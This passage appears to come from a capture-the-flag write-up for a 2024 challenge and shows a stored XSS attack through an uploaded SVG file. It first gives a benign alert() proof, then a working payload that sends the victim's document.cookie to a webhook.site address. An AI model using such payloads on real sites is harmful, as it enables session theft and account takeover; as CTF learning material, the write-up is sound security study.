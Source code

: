 ``` xml
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
  <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
  <script type="text/javascript">
    alert("Banua");
  </script>
</svg>
```

Try accessing the uploaded SVG file, and the payload successfully triggers by displaying a pop-up.

![Control](/images/post/PROTERGOCTF2024_Control5.png)

Next, I'll create a payload to steal the cookie and send it to my webhook. Here, I'm using a One-Liner payload from [link](https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md).

``` xml
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
  <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
  <script>var i=new Image;i.src="https://webhook.site/d8286ddf-6b37-456c-b98b-e21b9d86bab0?"+document.cookie;</script>
</svg>
```
